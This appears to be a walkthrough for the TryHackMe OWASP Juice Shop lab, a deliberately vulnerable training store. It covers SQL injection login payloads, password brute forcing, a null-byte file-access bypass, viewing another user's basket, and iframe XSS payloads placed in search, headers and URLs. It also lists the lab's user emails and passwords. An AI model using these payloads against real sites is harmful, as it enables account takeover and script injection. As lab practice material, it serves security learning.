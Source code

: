 # Juice Shop

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

---

## 🌐 Resources 🔗

> - [TryHackMe | OWASP Juice Shop](https://tryhackme.com/r/room/owaspjuiceshop)
> - [OWASP Top 10:2021](https://owasp.org/Top10/)
>   - [OWASP Top Ten 2017](https://owasp.org/www-project-top-ten/2017/)

---

## Enumeration

```bash
accountant@juice-sh.op
admin@juice-sh.op
bender@juice-sh.op
jim@juice-sh.op
morty@juice-sh.op
mc.safesearch@juice-sh.op
stan@juice-sh.op
uvogin@juice-sh.op

# Registered users
admin@juice-sh.op
jim@juice-sh.op
bender@juice-sh.op
bjoern.kimminich@gmail.com
ciso@juice-sh.op
support@juice-sh.op
morty@juice-sh.op
mc.safesearch@juice-sh.op
J12934@juice-sh.op
wurstbrot@juice-sh.op
amy@juice-sh.op
bjoern@juice-sh.op
bjoern@owasp.org
accountant@juice-sh.op
uvogin@juice-sh.op
demo
```

```bash
0 st4rs f0r 7h3 h0rr1bl3 s3cur17y
K33p5 y0ur ju1cy 5plu773r 70 y0ur53lf!
y0ur f1r3wall needs m0r3 musc13
```

---


## [SQL Injection](https://owasp.org/Top10/A03_2021-Injection/) - Login

- Admin - request:

`{"email":"' or 1=1--","password":"aa"}`

- bender@juice-sh.op - request:

`{"email":"bender@juice-sh.op'--","password":"a"}`

---

## [Broken Authentication](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/) - Brute force

- Login request to Intruder (Burp Suite) - brute force password with `/usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt`

```bash
{"email":"admin@juice-sh.op","password":"admin123"}
```

---

## [Sensitive Data Exposure](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)

- FTP public at `/ftp`
- Find `mc.safesearch@juice-sh.op` password
  - listen - https://www.youtube.com/watch?v=v59CX2DiX0Y

```bash
mc.safesearch@juice-sh.op
Mr. N00dles
```

### Poison Null Byte

**URL Encoding and Null Bytes:**

- In URLs, the null byte (`\x00`) is encoded as `%00`.
- Some web servers and applications improperly decode `%00`, interpreting it as a null byte, which can terminate strings prematurely.

**Mismatch in Validation vs. Execution:**

- During **validation**, the application might check the entire string.
- During **execution**, if the backend uses C-style string handling, the string stops at the null byte.
- This mismatch can cause security checks to be bypassed.

```bash
%00
%2500

http://10.10.212.2/ftp/package.json.bak%2500.md
```

The `%2500` encoding is an extra layer of obfuscation:

- `%25` is the literal encoding of `%`, so `%2500` decodes to `%00`.
- This may be necessary when certain servers or filters block `%00` directly, but fail to handle double-encoded payloads like `%2500`.

---

## [Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

Go to http://10.10.212.2/main-es2015.js

- F12 Dev Tools - Sources - `main-es2015.js`
  - Search for `path: "administration"`
  - go to http://10.10.212.2/#/administration



To view another user's shopping basket Go to http://10.10.212.2/#/basket

- change to `GET /rest/basket/2`



Go to http://machine_ip/#/administration

- Remove 5 stars reviews

---

## [Cross-Site Scripting (XSS)](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS).html)

### DOM XSS (Special)

- **Document Object Model-based Cross-site Scripting**

Input the following in the search bar

- XFS (Cross-Frame Scripting)

```bash
# e.g. 1
<iframe src="javascript:alert(`xss`)">

# e.g. 2
 <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

### Persistent (Server-side)

With admin, go to http://10.10.212.2/#/privacy-security/last-login-ip

- turn Burp interceptor on, and logout
- for the `GET /rest/saveLoginIp` request, got to Headers tab and add a new header

```bash
Name:
True-Client-IP
Value:
<iframe src="javascript:alert(`xss`)">
```

- Forward the request
- Upon signing back into the admin account and revisiting the "Last Login IP" page, the XSS alert will trigger!
- The **True-Client-IP** header functions similarly to the **X-Forwarded-For** header, as both inform the server or proxy about the client's IP address. However, due to the lack of proper sanitization in the header, we can exploit it to execute an XSS attack

### Reflected (Client-side)

With admin, go to http://10.10.212.2/#/order-history

- click truck icon - `http://10.10.212.2/#/track-result?id=5267-8f615dcb73f36818`
- Use the following iframe XSS in the place of the `5267-8f615dcb73f36818`

```bash
<iframe src="javascript:alert(`xss`)">
```

- Submit the URL, refresh the page, and an alert displaying "XSS" will appear!
- The server uses a lookup table or database (depending on its configuration) to manage each tracking ID. Since the `id` parameter is not sanitized before being processed by the server, this allows us to execute an XSS attack

---

Solve other chalenges by checking http://10.10.212.2/#/score-board

---

## Metrics challenge

http://10.10.212.2/metrics

---


